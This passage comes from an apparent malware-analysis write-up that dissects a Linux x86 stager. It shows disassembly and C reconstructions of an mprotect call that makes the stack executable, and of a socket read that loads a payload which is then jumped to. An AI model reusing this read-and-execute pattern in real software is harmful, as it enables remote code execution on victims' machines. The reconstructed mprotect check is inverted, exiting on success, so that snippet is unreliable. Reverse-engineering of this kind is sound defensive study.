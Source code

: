 ![Figure 15: Synopsis of mprotect function.](https://raw.githubusercontent.com/hamad-she/hamad-she.github.io/master/_posts/imgs/Tmp_txt/Untitled%2015.png)

Figure 15: Synopsis of mprotect function.

The call to *mprotect* may look like this:

```c
int hamad = mprotect(&s, 4096, PROT_EXEC | PROT_READ | PROT_WRITE);
if(hamad >= 0)
    exit(1);
```

The address of variable `s` (socket) is passed in the first argument because it is the top of the stack in C  code. The malware author could’ve created space for a buffer on the stack but chose not to.  The next step for the malware is to put the shellcode on stack and execute it.

---

### Call to read function

```wasm
pop     ebx
mov     ecx, esp
cdq
mov     dl, 6Ah ; 'j'
mov     al, 3
int     80h             ; 3 = sys_read
test    eax, eax
js      short loc_80480C3
jmp     ecx
```

- `pop ebx` will pop the last pushed value on the stack and store it in *ebx*. In this case, it is the stocket (variable `s` from code examples).
- `mov ecx, esp` will move the address in esp to ecx. This is for the second argument for output.
- `cdq` will copy the sign bit, i.e., the last bit of *eax* register to edx. This sign bit here will be 0 because *eax* is 0.
- `mov dl, 6Ah` The edx register will hold **106** value for the buffer size, and this is the third argument.
- `mov al, 3` will move the syscall number **3** (read) into *eax*.
- `int 80h` will execute the read syscall and put the result in *eax*. Since the first argument (*ebx*) is the socket, this means it is reading from the socket.

![Figure 16: Synopsis of read function](https://raw.githubusercontent.com/hamad-she/hamad-she.github.io/master/_posts/imgs/Tmp_txt/Untitled%2016.png)

Figure 16: Synopsis of read function

The call to read function might have looked like this:

```c
char buffer[106];
ssize_t nbytes_read = read(s, buffer, 106);
if (nbytes_read < 0)
    exit(1);
```
---
